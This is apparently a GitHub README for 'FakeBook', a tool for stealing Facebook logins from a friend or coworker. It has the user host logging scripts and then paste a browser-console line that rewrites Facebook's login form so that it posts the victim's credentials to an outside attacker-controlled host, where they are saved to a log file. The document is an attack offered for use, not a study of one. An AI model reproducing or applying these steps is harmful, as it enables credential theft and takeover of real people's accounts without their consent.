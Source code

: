 # FakeBook - JavaScript inject0r
Hack Someone Facebook With JavaScript inject0r (Social Engineering)

Give to a friend near you in the Office or Computer labs to Login into His or her FaceBook ツ

Upload All the scripts from <strong>https://github.com/aghanathan/FakeBook</strong> into your Web Hosting (e.g. <b>'/public_html/FakeBook'</b>)
It Will Create a text file ('log.txt') (e.g. <b>http://gofreelancer.xyz/FakeBook/log.txt</b>)

<h3><u>How To Inject & use JavaScript to change the form action</u></h3>
<ul>
  <li>Open <strong>https://www.facebook.com</strong> with <b>Google Chrome</b> Browser</li>
  <li>Right-click on any page element and select <b>Inspect Element</b> and then <b>Console</b></li>
  <li>Copy & Paste (<b>Crtl+V</b>) of this a line Javascript:<br>
    <code>document.getElementById('login_form').action = 'http://gofreelancer.xyz/FakeBook/login.php';</code>
  </li>
</ul>

<b>Live Demo</b>: <b>https://youtu.be/mkoXBder9jo</b>
